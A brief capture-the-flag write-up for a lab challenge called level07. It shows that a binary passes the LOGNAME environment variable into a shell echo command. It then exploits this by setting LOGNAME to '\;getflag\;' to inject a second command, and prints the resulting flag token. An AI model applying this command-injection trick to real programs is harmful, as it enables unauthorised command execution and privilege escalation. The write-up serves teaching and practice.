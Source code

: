 ##### 1 - Analyzing the content

``strings level07``
>LOGNAME
>/bin/echo %s

We understand that the binary will execute the command ``echo`` with the argument ``%s``.
The ``%s`` will be replaced by the value of the environment variable ``LOGNAME``.


----

##### 2 - Exployting the binary

We can create a new environment variable ``LOGNAME`` with the value ``\;getflag\;``.
The binary will execute the command ``echo`` with the argument ``\;getflag\;`` to do : ``echo ;getflag;``.
``export LOGNAME=\;getflag\;``

----

##### 3 - Getting the flag

``./level07``
>Check flag.Here is your token : **fiumuikeil55xe9cu4dood66h**
